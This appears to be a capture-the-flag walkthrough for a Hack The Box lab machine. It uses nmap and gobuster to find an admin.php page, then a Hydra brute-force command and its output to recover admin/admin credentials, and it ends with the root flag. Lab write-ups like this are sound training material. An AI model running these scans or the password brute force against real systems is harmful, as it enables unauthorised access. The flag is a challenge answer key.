

Connect the VPN, spawn the VM.<br>
10.129.197.200

### TASK 1

Directory Brute-forcing is a technique used to check a lot of paths on a web server to find hidden pages. Which is another name for this? (i) Local File Inclusion, (ii) dir busting, (iii) hash cracking.

Answer: dir busting

### TASK 2

What switch do we use for nmap's scan to specify that we want to perform version detection

```
$ nmap --help
```

```
Nmap 7.92 ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan
  -Pn: Treat all hosts as online -- skip host discovery
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
  -sU: UDP Scan
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan
  -r: Scan ports consecutively - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
SERVICE/VERSION DETECTION:
  -sV: Probe open ports to determine service/version info
  --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
  --version-light: Limit to most likely probes (intensity 2)
  --version-all: Try every single probe (intensity 9)
  --version-trace: Show detailed version scan activity (for debugging)
SCRIPT SCAN:
  -sC: equivalent to --script=default
  --script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories
  --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
  --script-args-file=filename: provide NSE script args in a file
  --script-trace: Show all data sent and received
  --script-updatedb: Update the script database.
  --script-help=<Lua scripts>: Show help about scripts.
           <Lua scripts> is a comma-separated list of script-files or
           script-categories.
OS DETECTION:
  -O: Enable OS detection
  --osscan-limit: Limit OS detection to promising targets
  --osscan-guess: Guess OS more aggressively
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
  -T<0-5>: Set timing template (higher is faster)
  --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
  --min-parallelism/max-parallelism <numprobes>: Probe parallelization
  --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
  --max-retries <tries>: Caps number of port scan probe retransmissions.
  --host-timeout <time>: Give up on target after this long
  --scan-delay/--max-scan-delay <time>: Adjust delay between probes
  --min-rate <number>: Send packets no slower than <number> per second
  --max-rate <number>: Send packets no faster than <number> per second
FIREWALL/IDS EVASION AND SPOOFING:
  -f; --mtu <val>: fragment packets (optionally w/given MTU)
  -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
  -S <IP_Address>: Spoof source address
  -e <iface>: Use specified interface
  -g/--source-port <portnum>: Use given port number
  --proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
  --data <hex string>: Append a custom payload to sent packets
  --data-string <string>: Append a custom ASCII string to sent packets
  --data-length <num>: Append random data to sent packets
  --ip-options <options>: Send packets with specified ip options
  --ttl <val>: Set IP time-to-live field
  --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
  --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
OUTPUT:
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename.
  -oA <basename>: Output in the three major formats at once
  -v: Increase verbosity level (use -vv or more for greater effect)
  -d: Increase debugging level (use -dd or more for greater effect)
  --reason: Display the reason a port is in a particular state
  --open: Only show open (or possibly open) ports
  --packet-trace: Show all packets sent and received
  --iflist: Print host interfaces and routes (for debugging)
  --append-output: Append to rather than clobber specified output files
  --resume <filename>: Resume an aborted scan
  --noninteractive: Disable runtime interactions via keyboard
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
  --webxml: Reference stylesheet from Nmap.Org for more portable XML
  --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (https://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

or even

```
└─$ nmap --help | grep service
  -sV: Probe open ports to determine service/version info
```

Answer: -sV

### TASK 3

What does Nmap report is the service identified as running on port 80/tcp?

```
└─# nmap -sS 10.129.197.200 -p80 -sV
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
```

Answer: http

### TASK 4

What server name and version of service is running on port 80/tcp?

Answer: nginx 1.14.2


### TASK 5

What switch do we use to specify to Gobuster we want to perform dir busting specifically?

```
└─# gobuster --help
```

```
Usage:
  gobuster [command]

Available Commands:
  dir         Uses directory/file enumeration mode
  dns         Uses DNS subdomain enumeration mode
  fuzz        Uses fuzzing mode
  help        Help about any command
  s3          Uses aws bucket enumeration mode
  version     shows the current version
  vhost       Uses VHOST enumeration mode

Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -h, --help              help for gobuster
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist

Use "gobuster [command] --help" for more information about a command.
```

Answer: dir

### TASK 6

When using gobuster to dir bust, what switch do we add to make sure it finds PHP pages?

```
└─# gobuster dir --help
```

```
Uses directory/file enumeration mode

Usage:
  gobuster dir [flags]

Flags:
  -f, --add-slash                       Append / to each request
  -c, --cookies string                  Cookies to use for the requests
  -d, --discover-backup                 Upon finding a file search for backup files
      --exclude-length ints             exclude the following content length (completely ignores the status). Supply multiple times to exclude multiple sizes.
  -e, --expanded                        Expanded mode, print full URLs
  -x, --extensions string               File extension(s) to search for
  -r, --follow-redirect                 Follow redirects
  -H, --headers stringArray             Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                            help for dir
      --hide-length                     Hide the length of the body in the output
  -m, --method string                   Use the following HTTP method (default "GET")
  -n, --no-status                       Don't print status codes
  -k, --no-tls-validation               Skip TLS certificate verification
  -P, --password string                 Password for Basic Auth
      --proxy string                    Proxy to use for requests [http(s)://host:port]
      --random-agent                    Use a random User-Agent string
  -s, --status-codes string             Positive status codes (will be overwritten with status-codes-blacklist if set)
  -b, --status-codes-blacklist string   Negative status codes (will override status-codes if set) (default "404")
      --timeout duration                HTTP Timeout (default 10s)
  -u, --url string                      The target URL
  -a, --useragent string                Set the User-Agent string (default "gobuster/3.1.0")
  -U, --username string                 Username for Basic Auth
      --wildcard                        Force continued operation when wildcard found

Global Flags:
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
      --no-error          Don't display errors
  -z, --no-progress       Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -p, --pattern string    File containing replacement patterns
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
```

Answer: -x php


### TASK 7

What page is found during our dir busting activities?

```
└─# gobuster dir -u 10.129.197.200 -x php --wordlist /usr/share/wordlists/dirb/small.txt
```

The wordlist was taken from the default Kali install.

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.197.200
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/27 22:10:26 Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 200) [Size: 999]

===============================================================
2022/09/27 22:11:13 Finished
===============================================================
```

Answer: admin.php

### TASK 8

What is the HTTP status code reported by Gobuster for the discovered page?

Answer: 200

### SUBMIT FLAG

Submit root flag

Navigate to the website http://10.129.197.200/admin.php and try to logon using intentionally wrong credentials, asdf / asdf.   It fails with "Wrong username or password."

Also review debug console -> Network -> Request and look at the form data, it contains username / password variable.  These will get used in Hydra



Used username list from here:
https://github.com/danielmiessler/SecLists/tree/master/Usernames

Run the command
```
└─# hydra -L /usr/share/wordlists/top-usernames-shortlist.txt -P /usr/share/john/password.lst 10.129.197.200 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong username or password."
```

and the results:

```
└─# hydra -L /usr/share/wordlists/top-usernames-shortlist.txt -P /usr/share/john/password.lst 10.129.197.200 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong username or password."
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-28 00:53:31
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 60503 login tries (l:17/p:3559), ~3782 tries per task
[DATA] attacking http-post-form://10.129.197.200:80/admin.php:username=^USER^&password=^PASS^:Wrong username or password.
[STATUS] 816.00 tries/min, 816 tries in 00:01h, 59687 to do in 01:14h, 16 active
[STATUS] 785.33 tries/min, 2356 tries in 00:03h, 58147 to do in 01:15h, 16 active
[STATUS] 790.86 tries/min, 5536 tries in 00:07h, 54967 to do in 01:10h, 16 active
[80][http-post-form] host: 10.129.197.200   login: admin   password: admin
```

Username admin
Password admin

Logon with those details

Answer: 6483bee07c1c1d57f14e5b0717503c73